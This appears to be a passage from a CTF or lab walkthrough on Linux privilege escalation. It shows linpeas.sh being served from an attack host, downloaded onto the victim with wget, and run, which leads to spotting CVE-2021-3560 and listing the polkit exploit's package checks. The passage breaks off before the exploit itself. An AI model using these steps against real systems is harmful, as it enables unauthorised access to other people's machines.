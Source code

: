```
#### What's the script will do?

- Search for possible paths to escalate privileges on **Linux/ Unix/ MacOS**
- [The checks based on ```books.hacktricks.xyz```](https://book.hacktricks.xyz/linux-unix/privilege-escalation)


---

### Upload Escalation Script

- In Attack host
- Direct to linpeas file location
```
# python -m SimpleHTTPServer 9999
```
- In Victim's Host

```
# wget http://10.10.14.4:9999/linpeas.sh
```

![](./IMG/49.png)
- Execite it
```
# chmod +x linpeas.sh
# ./linpeas.sh
```

![](./IMG/50.png)
- Find the Vulnerablue CVE : CVE-2021-3560

![](./IMG/51.png)

### Exploit

1. Check the distribution type. 
```Using /etc/os-release file.```
2. Checks for installation of accountservice and gnome-control-center. (```In rhel/centos/fedora, uses rpm -qa and in debian/ubuntu distributions, it uses dpkg -l```).
3. If the installations are found, then the script checks of polkit version. (0.113 (or later) for rhel.centos,fedora and 0-105-26 for Debian/Ubuntu)

```
# rpm -qa | grep accounts
# rpm -qa | grep gnome-control
# rpm -qa | grep polkit
```

![](./IMG/52.png)
- Check the time during the dbus execute the command but not complete.

```